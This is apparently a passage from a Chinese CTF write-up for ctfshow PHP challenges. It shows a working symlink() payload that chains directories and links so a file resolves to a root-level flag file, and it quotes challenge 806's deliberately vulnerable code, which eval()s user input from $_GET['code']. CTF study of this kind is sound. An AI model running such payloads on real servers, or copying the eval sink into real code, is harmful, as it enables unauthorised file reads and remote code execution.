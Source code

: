 ### 利用symlink()绕过

> ### 符号链接
>
> > 符号链接又叫软链接，是一类特殊的文件，这个文件包含了另一个文件的路径名(绝对路径或者相对路径)。路径可以是任意文件或目录，可以链接不同文件系统的文件。在对符号文件进行读或写操作的时候，系统会自动把该操作转换为对源文件的操作，但删除链接文件时，系统仅仅删除链接文件，而不删除源文件本身。
>
> symlink()函数创建一个从指定名称连接的现存目标文件开始的符号连接

需要跨几层目录就需要创建几层目录，简单说：

1. 创建软链接`qwe`指向`a/b/c/d`，然后创建软连接`tnt`指向`qwe/../../../ctfshowflag`，
   即`tnt`指向`a/b/c/d/../../../ctfshowflag`
2. 删除指向a/b/c/d的**链接文件**qwe，再创建文件夹`qwe`
   此时`tnt`指向`qwe/../../../ctfshowflag`即指向根目录下的ctfshowflag

```
1=
mkdir("a");
chdir("a");
mkdir("b");
chdir("b");
mkdir("c");
chdir("c");
mkdir("d");
chdir("d");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("a/b/c/d","qwe");
symlink("qwe/../../../../ctfshowflag","tnt");
unlink("qwe");
mkdir("qwe");
```

然后访问：url/tnt

## 806-php无参RCE

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

highlight_file(__FILE__);

if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
?>
```
